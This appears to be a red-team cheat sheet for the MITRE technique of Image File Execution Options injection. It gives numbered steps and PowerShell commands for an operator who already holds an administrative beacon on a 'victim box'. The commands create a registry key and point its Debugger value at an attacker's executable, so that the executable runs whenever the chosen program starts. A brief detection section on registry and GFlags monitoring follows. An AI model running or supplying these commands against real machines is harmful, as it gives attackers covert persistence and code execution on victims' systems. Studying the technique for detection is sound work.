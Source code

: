# [Image File Execution Options Injection](https://attack.mitre.org/techniques/T1546/012/)

## Exploit Description: 
Executing malicious content triggered by Image File Execution Options

## Exploit syntax:
* \<posh syntax\>

1. Get a beacon with administrative privileges. 

2. Put a Executable you want to be ran on the victim box.

3. In parrot open a blank text file and paste the following commands into it. The "Name of key" Should be the Program that you want to imitate. -Value should be the Path to the executable on vitcims box.
    ```sh
	New-item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" -Name "Name of key"

	Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Name of key" -name "Debugger" -Value "Path to executable on victim"

    ```
4. Save the file as SomeCleverName.ps1 to /tmp

	
5.  In posh, run
    ```sh
	pslo /tmp/SomeCleverName.ps1
    ```
6. When the Program you made the registry key for is executed. The name of the key is passed to the Value(Path to the executable on victim) you supplied in the powershell script as an argument. Then that executable is ran.  



## Detection Technique:
* Monitor for abnormal usage of the GFlags tool as well as common processes spawned under abnormal parents and/or with creation flags indicative of debugging such as DEBUG_PROCESS and DEBUG_ONLY_THIS_PROCESS

* Monitor for any registry changes to HKLM\Software\Microsoft\CurrentVersion\Windows NT\Image File Execution Options\

## Resources
 [Image File Execution Options Explained](https://www.youtube.com/watch?v=-hz0PTVa0k4&t=182s)